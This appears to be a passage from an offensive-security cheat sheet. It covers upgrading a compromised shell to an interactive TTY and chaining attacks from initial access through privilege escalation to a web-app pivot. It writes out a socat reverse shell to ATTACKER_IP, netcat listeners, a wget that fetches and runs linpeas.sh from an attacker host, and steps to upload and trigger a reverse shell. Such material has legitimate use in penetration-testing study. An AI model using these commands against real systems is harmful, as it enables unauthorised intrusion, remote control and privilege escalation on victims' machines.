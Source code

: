 # Method 1: Python PTY (most common)
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg  # (press Enter twice)

# Method 2: Script command
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm

# Method 3: Socat upgrade (if socat available)
# On attacker:
socat file:`tty`,raw,echo=0 tcp-listen:4444
# On target:
socat exec:'bash -li',pty,stderr,setpgid,sigint,sane tcp:ATTACKER_IP:4444
```

## **8. Multi-Stage Exploitation Patterns**

### **Pattern 1: Initial Access → Privilege Escalation**
```
# Stage 1: Get initial shell
nc -nvlp 4444 &
python3 initial_exploit.py -t TARGET --lhost ATTACKER_IP --lport 4444

# Stage 2: Enumerate and escalate
python3 -c 'import pty; pty.spawn("/bin/bash")'
wget http://ATTACKER_IP:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh

# Stage 3: Use privilege escalation script
python3 privesc_exploit.py --target localhost --user current_user
```

### **Pattern 2: Web App → Internal Network Pivot**
```
# Stage 1: Web application exploit
python3 web_exploit.py -u http://TARGET/vulnerable.php --cmd whoami

# Stage 2: Upload reverse shell script
python3 web_exploit.py -u http://TARGET/upload.php --upload reverse.py
python3 web_exploit.py -u http://TARGET/reverse.py --trigger
